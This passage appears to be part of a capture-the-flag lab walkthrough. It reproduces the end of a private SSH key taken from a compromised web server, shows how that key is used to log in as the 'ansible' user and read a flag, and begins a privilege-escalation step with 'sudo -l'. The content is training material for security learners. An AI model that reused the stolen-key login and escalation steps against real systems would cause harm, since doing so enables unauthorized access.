 ```
JM5Z+eY65hUwYNPY+zNALyOhxhs/4FSw5iGc5HaochBfQ88G6xS3dIwU3aov18az2M2YsV
hrXZwlAYKxiR0e/PUeCRNnCDp12acK2xJ+6N2BwVwX2ZVln8ZCHOY4lNaCqc0485Apvqz6
kZC2w1quoVcs/7rFNDZOhCoorqLAMqgEa2RjDHqgNml+S1r6MQ+uuOcm46RnNpZLXBAAAA
wQDDBfF36I8fyEL7BSTKT7O1DdCQDL6Z59dh3wU6p7igq5PV1XibsZbzjOleXGHLIBxVZG
7t62ni4SKCsrUiRna32XkpeeHveduylwJZ/FDQDwyFputDEOmdbikl76slQYmnOhVKBrMB
1h2VF35XSKkT6Y/5mtGGMcKlPCPMQ7sp326rbEm0mE/HQl3r6EgWds1vLQYoPqS3ZF0Se8
GSflk5lN0ll3z1VwORKm/wQcqVZviSw6QP2NNT9Ds5QqpVj/8AAADBAOx/uXeb1CRWdVf0
H431J42XX42THv+px6SDE5L+CxpEtBqIqh9L9wX6SM/9nL95V7qaonu2QB5s1xw5jBi16r
glSgmf1Pej8F5fk8mtr1qpg3d3EwmZdV+4SWmttc7xRKXiU2xWdbmMCycKUb1NLhZ2WGEU
cmJcNXo1N3k4zSOBxksd7mesDYWrC01Ynd7i2Zb9wBNgox1c6aZMFRZsJjWGXWlctVeSYk
jnI0cXorSJIcsoWo3VXgZpFmIsaMhbJQAAAMEAunH0YgxKhcbmYXH3ZFq7S7Y+m+2M2p/7
G30n05c8BYJiIK4m1tMKWL1YLgdyei8kXlCRp/K4AP2EihjLWuoYuBu0ts4PlV3lHdc2Y6
kbt7ThyS9X12GPBtletqBDQH6bYIGRJPfaGj2RMPTRAJ5hX+60kopJCBibIrXS0wCLs9nj
ddj8dFnUsYUa1xvq2eEF1tNW/j1BNhHV1ACDxREtR6QCFC1qruuiQM5yAwUnTvkRKgXnhi
ce3g69Cp/c7a4TAAAAJWFuc2libGVAcGM1LXVidW50dS1kZXNrdG9wLXRvbWNhdC1jMzMB
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

10. Paste the contents of this `id_rsa` file into a file called `id_rsa` inside your Kali VM (outside of the obtained web server shell): 

```bash
nano /home/user/Desktop/id_rsa
```

11. Before trying to log into the `ansible` user, lets change the permissions of the `id_rsa` file: 

```bash
chmod 700 /home/user/Desktop/id_rsa
```

12. Use the following command, from the Kali VM terminal, to log into the `ansible` user using its private ssh key and the web server IP address: 

```bash
ssh -i /home/user/Desktop/id_rsa ansible@10.5.5.85
```

13. You know have access to the `ansible` user and can read the `flag2.txt` file: 

```bash
cat /home/ansible/flag2.txt
```

You have now obtained the second flag. 

## Question 3

*Perform privilege escalation to get root access on the web server box. Third flag will be under `/root/flag3.txt`.*

1. From inside the `ansible` user session obtained above, let's see what sudo permissions we have: 

```bash
sudo -l
```
